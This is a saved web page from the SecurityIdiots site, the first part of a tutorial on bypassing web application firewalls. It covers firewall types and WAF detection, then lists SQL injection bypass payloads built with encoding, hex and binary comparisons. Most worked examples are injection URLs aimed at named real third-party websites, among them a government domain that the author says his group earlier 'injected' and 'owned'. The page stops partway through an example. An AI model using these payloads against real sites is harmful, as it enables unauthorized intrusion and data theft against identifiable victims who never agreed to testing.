

 <!DOCTYPE HTML>
<html>
<head>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1" />
<meta name="keywords" content="Security Idiots, Hacking Research Papers, Security Research Papers, Web application Penetration Testing, Web Pentesting, web Injection, SQL Injection, XSS, RFI, LFI, LDAP, XPATH, Bypass, RCE, XML Injection" />
<meta name="description" content="Heres one of the most requested tutorial yet, Lets start learning and exploring WAF techniques and bypasses.">
<title>Guide to WAF Bypass by SecurityIdiots</title>
<link rel="stylesheet" href="../../css/skel.css" />
<link rel="stylesheet" href="../../css/style.css" />
<!--[if lte IE 8]><script src="css/ie/html5shiv.js"></script><![endif]-->
<script src="../../js/jquery.min.js"></script>
<script src="../../js/jquery.dropotron.min.js"></script>
<script src="../../js/skel.min.js"></script>
<script src="../../js/skel-layers.min.js"></script>
<script src="../../js/init.js"></script>
<script src="../../js/jquery.treeview.js" type="text/javascript"></script>
<script src="../../js/jquery.cookie.js" type="text/javascript"></script>
<script src="../../js/demo.js" type="text/javascript"></script>
<!--[if lte IE 8]><link rel="stylesheet" href="css/ie/v8.css" /><![endif]-->
<div id="fb-root"></div>
<script>(function(d, s, id) {
		  var js, fjs = d.getElementsByTagName(s)[0];
		  if (d.getElementById(id)) return;
		  js = d.createElement(s); js.id = id;
		  js.src = "//connect.facebook.net/en_US/sdk.js#xfbml=1&appId=727224234003200&version=v2.0";
		  fjs.parentNode.insertBefore(js, fjs);
		}(document, 'script', 'facebook-jssdk'));

</script>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-54093058-1', 'auto');
  ga('send', 'pageview');

</script>
<script id="dsq-count-scr" src="https://securityidiots-com.disqus.com/count.js" async></script>
</head>
<body class="left-sidebar"> 
<div id="header">
<div class="container">

<h1><a href="waf-bypass-guide-part-1.html#" id="logo">Security Idiots</a></h1>

<nav id="nav">
<ul>
<li><a href="../../index.html">Home</a></li>
<li>
<a href="waf-bypass-guide-part-1.html">Categories</a>
<ul>
<li><a href="../Information-Gathering/index.html">Information Gathering</a>
<ul>
<li><a href="../Information-Gathering/Cloudflare-Bypass/index.html">Cloudflare Bypass</a></li>
</ul>
</li>
<li><a href="../SQL-Injection/index.html">SQL Injection</a>
<ul>
<li><a href="../SQL-Injection/MSSQL/index.html">MSSQL</a></li>
</ul>
</li>
<li><a href="../Tricks/index.html">Tricks</a></li>
<li><a href="../XSS/index.html">XSS</a></li>
<li><a href="../LFI/index.html">LFI</a></li>
<li><a href="../XPATH-Injection/index.html">XPATH Injection</a></li>
</ul>
</li>
<li><a href="https://www.youtube.com/watch?v=nMOyvIWn5Y8&list=PL5e1zp5ChO-S4nlMUy60AMIkB0XDgd8wb" target="_BLANK">Video Gallery</a></li>
<li><a href="../../construction.html">The Idiots Team</a></li>
<li><a href="../../construction.html">Contact Us</a></li>
</ul>
</nav>
</div>
</div>

<div id="main" class="wrapper style1">
<div class="container">
<div class="row"> 
<div id="sidebar" class="4u sidebar" style="width:25%;background:white;padding:20px;color:black; border: 2px solid #a1a1a1;border-radius: 25px;">
<section>
<header class="major">
<h2>Tutorials Browser</h2>
</header>
<div class="row half">
<ul id="browser" class="filetree">
<li><a href="../../Web-Pentest.html"><span class="folder">Web Pentest</span></a><ul id="Web-Pentest"></ul></li>
</ul>
<script>
function SetOpt(type,element,path,title,name){
container = document.getElementById(element);
if(type=='folder')
element='<li><span class="'+type+'"><a href="https://www.securityidiots.com/'+path+'" title="'+title+'">'+name+'</a></span><ul id="'+path+'"></ul></li>';
else
element='<li><span class="'+type+'"><a href="https://www.securityidiots.com/'+path+'" title="'+title+'">'+name+'</a></span></li>';
container.innerHTML = container.innerHTML + element;
}
SetOpt('folder','Web-Pentest','Web-Pentest/Information-Gathering','Information-Gathering','Information-Gathering');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-0-Purpose-of-Information-Gathering.html','Part-0-Purpose-of-Information-Gathering.html','Part-0-Purpose-of-Information-Gathering.html');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-1-information-Gathering-with-websites.html','Part-1-information-Gathering-with-websites.html','Part-1-information-Gathering-with-websites.html');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-2-information-Gathering-with-Google.html','Part-2-information-Gathering-with-Google.html','Part-2-information-Gathering-with-Google.html');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-3-information-Gathering-with-nmap.html','Part-3-information-Gathering-with-nmap.html','Part-3-information-Gathering-with-nmap.html');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-4-DNS-information-Gathering-with-DIG.html','Part-4-DNS-information-Gathering-with-DIG.html','Part-4-DNS-information-Gathering-with-DIG.html');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-5-information-Gathering-with-Fierce.html','Part-5-information-Gathering-with-Fierce.html','Part-5-information-Gathering-with-Fierce.html');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-6-information-Gathering-with-FOCA.html','Part-6-information-Gathering-with-FOCA.html','Part-6-information-Gathering-with-FOCA.html');
SetOpt('file','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Part-7-information-Gathering-with-Metagofil.html','Part-7-information-Gathering-with-Metagofil.html','Part-7-information-Gathering-with-Metagofil.html');
SetOpt('folder','Web-Pentest/Information-Gathering','Web-Pentest/Information-Gathering/Cloudflare-Bypass','Cloudflare-Bypass','Cloudflare-Bypass');
SetOpt('file','Web-Pentest/Information-Gathering/Cloudflare-Bypass','Web-Pentest/Information-Gathering/Cloudflare-Bypass/Part-1-Understanding-Cloudflare-Security.html','Part-1-Understanding-Cloudflare-Security.html','Part-1-Understanding-Cloudflare-Security.html');
SetOpt('file','Web-Pentest/Information-Gathering/Cloudflare-Bypass','Web-Pentest/Information-Gathering/Cloudflare-Bypass/Part-2-Cloudflare-Security-Bypass.html','Part-2-Cloudflare-Security-Bypass.html','Part-2-Cloudflare-Security-Bypass.html');
SetOpt('file','Web-Pentest/Information-Gathering/Cloudflare-Bypass','Web-Pentest/Information-Gathering/Cloudflare-Bypass/Part-3-Cloudflare-Security-Bypass.html','Part-3-Cloudflare-Security-Bypass.html','Part-3-Cloudflare-Security-Bypass.html');
SetOpt('file','Web-Pentest/Information-Gathering/Cloudflare-Bypass','Web-Pentest/Information-Gathering/Cloudflare-Bypass/Part-4-Cloudflare-Security-Bypass.html','Part-4-Cloudflare-Security-Bypass.html','Part-4-Cloudflare-Security-Bypass.html');
SetOpt('folder','Web-Pentest','Web-Pentest/LFI','LFI','LFI');
SetOpt('file','Web-Pentest/LFI','Web-Pentest/LFI/guide-to-lfi.html','guide-to-lfi.html','guide-to-lfi.html');
SetOpt('folder','Web-Pentest','Web-Pentest/SQL-Injection','SQL-Injection','SQL-Injection');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html','Part-1-Basic-of-SQL-for-SQLi.html','Part-1-Basic-of-SQL-for-SQLi.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Part-2-Basic-of-SQL-for-SQLi.html','Part-2-Basic-of-SQL-for-SQLi.html','Part-2-Basic-of-SQL-for-SQLi.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Part-3-Basic-of-SQL-for-SQLi.html','Part-3-Basic-of-SQL-for-SQLi.html','Part-3-Basic-of-SQL-for-SQLi.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html','Basic-Union-Based-SQL-Injection.html','Basic-Union-Based-SQL-Injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/basic-injection-single-line-or-death.html','basic-injection-single-line-or-death.html','basic-injection-single-line-or-death.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html','XPATH-Error-Based-Injection-Extractvalue.html','XPATH-Error-Based-Injection-Extractvalue.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-UpdateXML.html','XPATH-Error-Based-Injection-UpdateXML.html','XPATH-Error-Based-Injection-UpdateXML.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Error-Based-Injection-Subquery-Injection.html','Error-Based-Injection-Subquery-Injection.html','Error-Based-Injection-Subquery-Injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/sql-evil-twin-injection.html','sql-evil-twin-injection.html','sql-evil-twin-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Blind-SQL-Injection.html','Blind-SQL-Injection.html','Blind-SQL-Injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html','bypass-login-using-sql-injection.html','bypass-login-using-sql-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/dump-database-from-login-form-sql.html','dump-database-from-login-form-sql.html','dump-database-from-login-form-sql.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/url-spoofed-phishing-with-sqli.html','url-spoofed-phishing-with-sqli.html','url-spoofed-phishing-with-sqli.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/ddos-website-with-sqli-siddos.html','ddos-website-with-sqli-siddos.html','ddos-website-with-sqli-siddos.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/delete-query-injection.html','delete-query-injection.html','delete-query-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/update-query-injection.html','update-query-injection.html','update-query-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html','xss-injection-with-sqli-xssqli.html','xss-injection-with-sqli-xssqli.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/time-based-blind-injection.html','time-based-blind-injection.html','time-based-blind-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/insert-query-injection.html','insert-query-injection.html','insert-query-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/group-by-and-order-by-sql-injection.html','group-by-and-order-by-sql-injection.html','group-by-and-order-by-sql-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html','Union-based-Oracle-Injection.html','Union-based-Oracle-Injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html','Dump-in-One-Shot-part-1.html','Dump-in-One-Shot-part-1.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-2.html','Dump-in-One-Shot-part-2.html','Dump-in-One-Shot-part-2.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/DIOS-the-SQL-Injectors-Weapon-Upgraded.html','DIOS-the-SQL-Injectors-Weapon-Upgraded.html','DIOS-the-SQL-Injectors-Weapon-Upgraded.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/database-type-testing-sql-injection.html','database-type-testing-sql-injection.html','database-type-testing-sql-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/routed_sql_injection.html','routed_sql_injection.html','routed_sql_injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/multi-query-injection.html','multi-query-injection.html','multi-query-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/mssql-insert-query-injection.html','mssql-insert-query-injection.html','mssql-insert-query-injection.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/oracle-sql-injection-dios-query.html','oracle-sql-injection-dios-query.html','oracle-sql-injection-dios-query.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/mssql-out-of-band-exploitation.html','mssql-out-of-band-exploitation.html','mssql-out-of-band-exploitation.html');
SetOpt('file','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html','addslashes-bypass-sql-injection.html','addslashes-bypass-sql-injection.html');
SetOpt('folder','Web-Pentest/SQL-Injection','Web-Pentest/SQL-Injection/MSSQL','MSSQL','MSSQL');
SetOpt('file','Web-Pentest/SQL-Injection/MSSQL','Web-Pentest/SQL-Injection/MSSQL/mssql-dios.html','mssql-dios.html','mssql-dios.html');
SetOpt('file','Web-Pentest/SQL-Injection/MSSQL','Web-Pentest/SQL-Injection/MSSQL/MSSQL-Union-Based-Injection.html','MSSQL-Union-Based-Injection.html','MSSQL-Union-Based-Injection.html');
SetOpt('file','Web-Pentest/SQL-Injection/MSSQL','Web-Pentest/SQL-Injection/MSSQL/MSSQL-Error-Based-Injection.html','MSSQL-Error-Based-Injection.html','MSSQL-Error-Based-Injection.html');
SetOpt('folder','Web-Pentest','Web-Pentest/Tricks','Tricks','Tricks');
SetOpt('file','Web-Pentest/Tricks','Web-Pentest/Tricks/Grab-IP-Address-Using-Image.html','Grab-IP-Address-Using-Image.html','Grab-IP-Address-Using-Image.html');
SetOpt('folder','Web-Pentest','Web-Pentest/WAF-Bypass','WAF-Bypass','WAF-Bypass');
SetOpt('file','Web-Pentest/WAF-Bypass','Web-Pentest/WAF-Bypass/waf-bypass-guide-part-1.html','waf-bypass-guide-part-1.html','waf-bypass-guide-part-1.html');
SetOpt('file','Web-Pentest/WAF-Bypass','Web-Pentest/WAF-Bypass/bypass-sucuri-webSite-firewall.html','bypass-sucuri-webSite-firewall.html','bypass-sucuri-webSite-firewall.html');
SetOpt('folder','Web-Pentest','Web-Pentest/XPATH-Injection','XPATH-Injection','XPATH-Injection');
SetOpt('file','Web-Pentest/XPATH-Injection','Web-Pentest/XPATH-Injection/Basics-of-XPATH-for-XPATH-Injection-part-1.html','Basics-of-XPATH-for-XPATH-Injection-part-1.html','Basics-of-XPATH-for-XPATH-Injection-part-1.html');
SetOpt('file','Web-Pentest/XPATH-Injection','Web-Pentest/XPATH-Injection/Basics-of-XPATH-for-XPATH-Injection-part-2.html','Basics-of-XPATH-for-XPATH-Injection-part-2.html','Basics-of-XPATH-for-XPATH-Injection-part-2.html');
SetOpt('file','Web-Pentest/XPATH-Injection','Web-Pentest/XPATH-Injection/Basics-XPATH-injection.html','Basics-XPATH-injection.html','Basics-XPATH-injection.html');
SetOpt('file','Web-Pentest/XPATH-Injection','Web-Pentest/XPATH-Injection/xpath-injection-part-1.html','xpath-injection-part-1.html','xpath-injection-part-1.html');
SetOpt('folder','Web-Pentest','Web-Pentest/XSS','XSS','XSS');
SetOpt('file','Web-Pentest/XSS','Web-Pentest/XSS/xss.series-by-securityidiots.html','xss.series-by-securityidiots.html','xss.series-by-securityidiots.html');
SetOpt('file','Web-Pentest/XSS','Web-Pentest/XSS/basics-of-javascript-for-XSS-part2.html','basics-of-javascript-for-XSS-part2.html','basics-of-javascript-for-XSS-part2.html');
SetOpt('file','Web-Pentest/XSS','Web-Pentest/XSS/basics-of-javascript-for-XSS3-final.html','basics-of-javascript-for-XSS3-final.html','basics-of-javascript-for-XSS3-final.html');
SetOpt('file','Web-Pentest/XSS','Web-Pentest/XSS/xss-exploitation-series-part-1.html','xss-exploitation-series-part-1.html','xss-exploitation-series-part-1.html');
SetOpt('file','Web-Pentest/XSS','Web-Pentest/XSS/different-contexts-for-xss-execution.html','different-contexts-for-xss-execution.html','different-contexts-for-xss-execution.html');
SetOpt('folder','Web-Pentest','Web-Pentest/XXE','XXE','XXE');
SetOpt('file','Web-Pentest/XXE','Web-Pentest/XXE/XXE-Cheat-Sheet-by-SecurityIdiots.html','XXE-Cheat-Sheet-by-SecurityIdiots.html','XXE-Cheat-Sheet-by-SecurityIdiots.html');

</script> </div>
</section>
</div>  <div id="content" class="8u skel-cell-important">
<section class="lol" style="padding:10px;background:#C9C9C2;color:black; border: 2px solid #a1a1a1;border-radius: 8px;">
<header class="major">
<h3><span class="byline">Guide to WAF Bypass by SecurityIdiots</span></h3>
<div class="row no-collapse-1">
<span class="post-description" style="text-align:justify;">In the Name of ALLAH the Most Beneficent and the Merciful<br><br>
Understanding the concept is more important than learning some tricks which i guess are posted in every second WAF bypass tutorial, so in this tutorial i will try to talk more about the internal concept than just bypassing shit. Once you know the concept you can easily manipulate things and develop your own bypass methods in a much more clever way, than just being dependent on all those shitty tricks. One more thing as am not more of a theory guy, so will discuss point to point. <br>
<br>
Here is the complete TOC for My WAF tutorial Series, as its normal i cant discuss all in one tutorial. I have separated whole TOC in 7 parts.<br>
<br>
<u><b><a href='waf-bypass-guide-part-1.html#whatisfirewall'>Part - 1</a></b></u><br>
<a href='waf-bypass-guide-part-1.html#whatisfirewall'>What is Firewall</a><br>
<a href='waf-bypass-guide-part-1.html#typesoffirewalls'>Common Type of Firewalls</a><br>
<a href='waf-bypass-guide-part-1.html#networklayerfirewall'>[*] Network Layer Firewall</a><br>
<a href='waf-bypass-guide-part-1.html#waf'>[*] Web Application Firewall</a><br>
<a href='waf-bypass-guide-part-1.html#detectingwaf'>Detecting the WAF</a><br>
<a href='waf-bypass-guide-part-1.html#bypasses'>Types of Approaches used and thier bypasses</a><br>
<a href='waf-bypass-guide-part-1.html#encodingbypass'>[*] Different Types of Encoding</a><br>
<a href='waf-bypass-guide-part-1.html#doubleencoding'>[*] Double Encoding to bypass WAF</a><br>
<a href='waf-bypass-guide-part-1.html#casesensitvebypass'>[*] Bypassing Case sensitive Filters</a><br>
<a href='waf-bypass-guide-part-1.html#hpp'>[*] HTTP Parameter Pollution</a><br>
<u><b>Part - 2</b></u><br>
[*] White spaces Bypass<br>
[*] Bypass for Columns seprators filters<br>
[*] Comma Replace/Filter Bypass<br>
[*] Comments and Inline Commenting<br>
[*] Bypassing with Special Characters<br>
<u><b>Part - 3</b></u><br>
[*] Bypassing Keyword Replace WAF<br>
[*] Buffer Overflow Methods<br>
[*] Changing the comment type<br>
[*] Bypass using Null Byte Poisoning<br>
[*] Change Request Method<br>
<u><b>Part - 4</b></u><br>
[*] Path Evasion Bypass Methods<br>
[*] Parameter Evasion Bypass Methods<br>
[*] Mount Origin Server to Bypass WAF<br>
[*] Bypass Proxified Applications using SSRF<br>
[*] The ultimate bypass method by K.K (it actually works)<br>
[*] Using Chunked Requests to bypass WAF<br>
<u><b>Part - 5</b></u><br>
[*] Bypassing Cookies based WAF<br>
[*] Bypassing Session based WAF<br>
[*] Host Header Manipulation<br>
[*] Header Injection to Bypass WAF<br>
[*] SQL Injection Smuggling Attack<br>
[*] Routed Query Injection WAF Bypass<br>
[*] Multi Query Injection WAF Bypass<br>
<u><b>Part - 6</b></u><br>
Understanding WAF behaviour and Bypass Accordingly<br>
Some Example WAFs and Practical bypass<br>
<u><b>Part - 7</b></u><br>
WAF Bypass Payloads for Fuzzing<br>
<br>
<h4><u><a name="whatisfirewall">What is Firewall</a></u></h4>
Firewall is a security system which controls the traffic between a Network, Server or an Application. There are both Software and Hardware firewalls. <br>
<h4><u>Common Type of Firewalls</u></h4>
[*] Network Layer Firewall<br>
[*] Web Application Firewall<br>
<br>
<u><a name="networklayerfirewall">Network Layer Firewall</a></u><br><br>
Network layer firewalls, operates at a relatively low level of the TCP/IP protocol stack, not allowing packets to pass through the firewall unless they match the established rule set which could be White Listing or the Black Listing. The firewall administrator may define the rules; or default rules may be applied. This type of firewalls usually drops the packet when it does not pass the ruleset. Many times while Injecting an application when your packet gets completly dropped and shows that there was no reply from server, you can assume thats its a Network Firewall. Although the behaviour can not be very specific, it usually depends on the settings.<br>
<br>
Here we can have an example behaviour of such Firewall.
<pre>Normal URL
<a href='http://wlkc.zjtie.edu.cn/qcwh/content/detail.php?id=330' target="_blank">http://wlkc.zjtie.edu.cn/qcwh/content/detail.php?id=330</a>
Packet Dropped - No reply - Detected By Firewall
<a href="http://wlkc.zjtie.edu.cn/qcwh/content/detail.php?id=.0 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--" target="_blank">http://wlkc.zjtie.edu.cn/qcwh/content/detail.php?id=.0 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--</a>
Bypassed:
<a href="http://wlkc.zjtie.edu.cn/qcwh/content/detail.php?id=.0 union select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--" target="_blank">http://wlkc.zjtie.edu.cn/qcwh/content/detail.php?id=.0 union select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--</a>
</pre>
<u><a name="waf">Web Application Firewall</a></u><br><br>
WAFs are typically deployed in some sort of proxy fashion just in front of the web applications, so they do not see all traffic on our networks. By monitoring the traffic before it reaches the web application, WAFs can analyze requests before passing them on. This is what gives them such an advantage over IPSs. Because IPSs are designed to interrogate all network traffic, they cannot analyze the application layer as thoroughly as WAF.<br><br>
Here is an example MOD security WAF
<pre>Normal URL
<a href="http://bpc.gov.bd/contactus.php?id=4" target="_blank">http://bpc.gov.bd/contactus.php?id=4</a>
Detected By MOD Security
<a href="http://bpc.gov.bd/contactus.php?id=4' UNION SELECT 1,2,3-- -" target="_blank">http://bpc.gov.bd/contactus.php?id=4' UNION SELECT 1,2,3-- -</a>
Bypassed:
<a href="http://bpc.gov.bd/contactus.php?id=.4'/*!50000UNION*//*!50000SELECT*/1,2,3,4,5,6,7-- -" target="_blank">http://bpc.gov.bd/contactus.php?id=.4'/*!50000UNION*//*!50000SELECT*/1,2,3,4,5,6,7-- -</a>
</pre>
Now before i continue i would like to share a very interesting fact about this site, i remember its vulnerable since a long time. Last time we injected it and owned it. This time when i started injecting i found something is changed. I thought its no more vulnerable. But then i came to know its still vulnerable the only change made i they are no using two firewalls. Its like the admin do not want to waste time in changing the application code and remove the vulnerability, he only fucking want to increase the count of firewalls to increase security. Damn You!! why dont you fucking remove the vulnerability rather than using more WAF.<br>
<br>
<br>
<br>
Remember WAF is a good security, but you can not just leave the application vulnerable and completely rely on WAF for security. Now lets move to our next topic detecting the WAF<br><br>
<h4><u><a name="detectingwaf">Detecting the WAF</a></u></h4>
There are many tools and scripts which can detect and fingerprint WAF presence over an Application, which includes but not limited to <br>
NMAP<br>
wafw00f<br>
Checking the response headers<br>
Checking Response Body <br>
etc<br>
<br>
Here we will discuss basic syntax of NMAP and WAFw00f but for the rest i will suggest you reading Rafay Baloch Research Papers on WAF, its already nicely discussed and explained over there, so i suppose there is no meaning to write the same things over here and making this tutorial lengthy.<br>
<br>
Detecting WAF using NMAP<br>
<pre>nmap -p80 --script http-waf-detect &lt;host&gt;</pre>
Fingerprinting WAF using NMAP
<pre>nmap -p80 --script http-waf-fingerprint &lt;host&gt;</pre>
Fingerprinting WAF using WAFw00f
<pre>wafw00f.py &lt;url&gt;</pre>
Once you know the WAF you are dealing with, you can search for its available Bypass.<br><br>
Now moving on to the most favorite methods of all Inj3ct0rs which is Bypassing the WAF manually.<br><br>
<h4><u><a name="bypasses">Types of Approaches used and thier bypasses</a></u></h4>
We will learn multiple ways of WAF bypass and once we are finished, we ll couple them up and mix them together for complex WAF bypasses methods.<br><br>
<h4><a name="encodingbypass">1. Different Types of Encoding</a></h4>
There are many types of encoding, some of them are supported by the Application Server, Some of them are supported by the Web App and some of them are supported by the Database Server. When we send a request it goes through many Layers and Different types of Application before our input reach the database, which is why many times we are able to use different types of encodings and double encoding which are not supported by database server but the other applications in between, which may decode our input and pass it to the database server. Sometimes taking advantage of such behaviour helps us to bypass WAF. <br>
<br>
Lets take a basic example there is a nice filewall implemented on an application. The application have a get parameter input which is first encoded into Base64 and then Rot13, now heres the funny part. When we inject such application our Input goes encoded and Bypass WAF, next when it come to the application its decoded and then sent to databse server. Here we bypassed WAF because our input was encoded and the application decoded it before it was passed to database. <br>
<br>
In this manner there are many different types of encodings which we can use to bypass WAF for example URL Encoding, Hexing, Binary, Unicode etc. First of all we will start with bypassing the test condition rules which many WAFs are blocking these days like:
<pre>Blocked True Conditions
1 or 1=1
1' or ''='
1" or ""="
1' or true#
1" or true#
1 or true#
etc.
</pre>
Now Lets Mix Up some common sense and encodings to bypass such filters:
<pre>or '1
|| '1
null' || 'a'=_binary'a
1' || 'a'=x'61
1' && '0'=x'30
1' %26%26 %270%27%3dx'30
2' && 0.e1=_binary"0
1 or 1.e1=0b1010
' || 1 like 1
'-'
"-"
' || 2 not like 1
110 or x'30'=48
'1'!=20
1 or 20!='1'
2 and 2>0
3 || 0<1
12 || 0b1010<0b1011
0b11 || 0b1010<x'20' 0b0 or 0x3132>x'30'
1 or 0b1
2121/**/||21
111' or _binary'1
1 or 2121
1' or 12 rlike '1
</pre>
Using the above Bypasses and by mixing them up you can generate thousands of different payload and bypasses. Here i have used Binary, Hex encoding as well as some keywords to bypass. Actually WAFs detect anything malicious using the ruleset defined with them. So we need to generate something different to confuse them.<br>
<br>
If you did not understood above methods here is a basic explanation of using Binary, Hex, Like and Rlike in SQL
<pre>Binary
Select 1 from dual where 0b1010=10
Hex Type 1
Select 1 from dual where '0'=x'30'
Hex Type 2
Select 1 from dual where 0x30='0'
Like statement
Select 1 from dual where 1 like 1 
Rlike Statement
Select 1 from dual where 12 rlike 1
|| (OR)
Select 1 from dual where 1||1
&& (And)
Select 1 from dual where 1&&1
</pre>
Here we can see some working examples:<br>
Blocked:<pre>http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 or 1
http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 or 1=1
http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 or 0>2
</pre>
Bypassed<pre>http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 or ''=''
http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 || 0b1=x'31'
http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 ||'1'!=20
http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 || 1=1
http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 || 1 like 1
http://www.prizmconsulting.com.pk/news.php?actionvar=news&id=1 || 12 rlike 1
</pre>
As we know SQL do not support URL encoding but Webserver and Apllication do. So we can also use URL encoding to bypass WAF. The first thing is to understand how is works. Some times when a Network Based Firewall is implemented or even in case of a Application firewall this could happen that the WAF is not docoding our input while comparing with the rule set. When our input reach to the server or the application then it is decoded, and then it is passed to the database server. In this manner URL encoding also helps us Bypassing waf many times.<br>
<br>
Following are some examples of URL encoded WAF bypass Payload:
<pre>%55nion(%53elect)
union%20distinct%20select
union%20%64istinctRO%57%20select
union%2053elect
%23?%0auion%20?%23?%0aselect
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect
%55nion %53eLEct
u%6eion se%6cect
unio%6e %73elect
unio%6e%20%64istinc%74%20%73elect
uni%6fn distinct%52OW s%65lect
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%74
</pre>
Example (Blocked)<pre><a href="http://www.jenman.com.au/news_alert.php?id=.90 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23%23" target="_blank">http://www.jenman.com.au/news_alert.php?id=.90 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23%23</a></pre>
URL Encoded Bypass<pre><a href="http://www.jenman.com.au/news_alert.php?id=.90 unio%6e selec%74 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23%23" target="_blank">http://www.jenman.com.au/news_alert.php?id=.90 unio%6e selec%74 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23%23</a></pre>
Example (Blocked)<pre><a href="http://www.arconassoc.com/pages.php?page_id=.0union(select 1,2,3,4,5,6,7,8,9,10,11,12)" target="_blank">http://www.arconassoc.com/pages.php?page_id=.0union(select 1,2,3,4,5,6,7,8,9,10,11,12)</a></pre>
